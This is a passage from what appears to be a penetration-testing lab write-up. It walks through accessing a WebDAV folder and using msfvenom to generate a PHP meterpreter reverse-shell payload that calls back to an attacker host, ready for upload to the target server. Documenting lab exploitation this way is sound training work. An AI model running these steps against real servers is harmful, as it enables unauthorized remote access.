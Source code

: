 Once in the /webdav folder it was time to go to the next step. Now that access to WebDav server was established this is a way to upload an exploit.

#### File/Folder Directory way:
Find and click on the Folder icon at the top left in the toolbar > Open Folder.

Once in the File Manager on the left hand side click on Browse Network.

Then navigate to dav://192.168.1.105/webdav using the folder search bar.

![WebDav file manager](/Images/webdav-file-manager.png "WebDav file manager")

### Upload a PHP reverse shell payload.

Now that there is a way to access the WebDav folder the next thing to do was to create a reverse shell to exploit the server. 

A PHP reverse shell payload will be used since PHP is a server side language.

Using Metasploit a script can be found to create a payload and upload it to the WebDav server.

Commands:

`msfconsole`

`msfvenom -l payloads`

Results:

`php/meterpreter/reverse_tcp`

![Meterpreter search results](/Images/meterpreter-search-results.png "Meterpreter search results")

Once a list of payloads is output and the PHP specific reverse tcp script is found the payload can be created.

Command:

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.90 LPORT=4444  > shell.php`

Results:

A file called shell.php is now created/in root and ready to move to upload to WebDav server.

![MSFvenom reverse tcp script](/Images/shell-payload.png "MSFvenom reverse tcp script")
